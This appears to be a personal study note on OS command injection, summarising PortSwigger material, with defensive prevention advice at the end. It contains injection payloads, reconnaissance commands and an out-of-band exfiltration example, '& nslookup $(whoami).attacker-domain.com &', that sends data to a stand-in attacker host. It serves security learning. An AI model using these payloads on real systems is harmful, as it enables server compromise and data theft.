 # Os Command injection
## What is OS command injection?
OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data. Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, and exploit trust relationships to pivot the attack to other systems within the organization.
### Injecting OS commands
In this example, a shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL:

`https://insecure-website.com/stockStatus?productID=381&storeID=29`

`stockreport.pl 381 29`

`stockreport.pl & echo aiwefwlguh & 29`

`Error - productID was not provided` 
`aiwefwlguh`
`29: command not found`
### Useful commands
After you identify an OS command injection vulnerability, it's useful to execute some initial commands to obtain information about the system. Below is a summary of some commands that are useful on Linux and Windows platforms:

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |

### **Detection and Exploitation Techniques**
1. **Using Time Delays**:
    
    - Inject commands that cause noticeable delays, such as `ping -c 10 127.0.0.1`, to confirm execution by observing response times.
2. **Output Redirection**:
    
    - Redirect command output to files in accessible locations (e.g., `/var/www/static`) and retrieve them via the browser:
        - Example: `& whoami > /var/www/static/whoami.txt &`.
3. **Out-of-Band (OAST) Techniques**:
    
    - Inject commands that interact with attacker-controlled systems to confirm execution:
        - Example: `& nslookup attacker-domain.com &` to trigger DNS lookups.
    - For exfiltration, inject payloads embedding command outputs into the DNS query:
        - Example: `& nslookup $(whoami).attacker-domain.com &`.

### **Command Injection Methods**
1. **Shell Metacharacters**:
    
    - Common separators for chaining commands:
        - Cross-platform: `&`, `&&`, `|`, `||`
        - Unix-only: `;`, `\n` (newline).
    - Inline execution using backticks or `$()`:
        - Example: `` `injected command` `` or `$(injected command)`.
2. **Escaping Quoted Context**:
    
    - Terminate quotes (`"` or `'`) before injecting commands if user input is wrapped in quotes.

### **Prevention Strategies**
1. **Avoid OS Command Execution**:
    
    - Use platform APIs to achieve the same functionality without invoking OS commands.
2. **Validate Inputs Strictly**:
    
    - Use a **whitelist** of allowed values.
    - Ensure inputs are strictly alphanumeric or match expected formats.
    - Validate inputs as numeric when appropriate.
3. **Do Not Escape Metacharacters**:
    
    - Escaping shell metacharacters is error-prone and easily bypassed. Use strict validation instead.

## References
[1]
PortSwigger, “What is OS command injection, and how to prevent it? | Web Security Academy,” portswigger.net. https://portswigger.net/web-security/os-command-injection

‌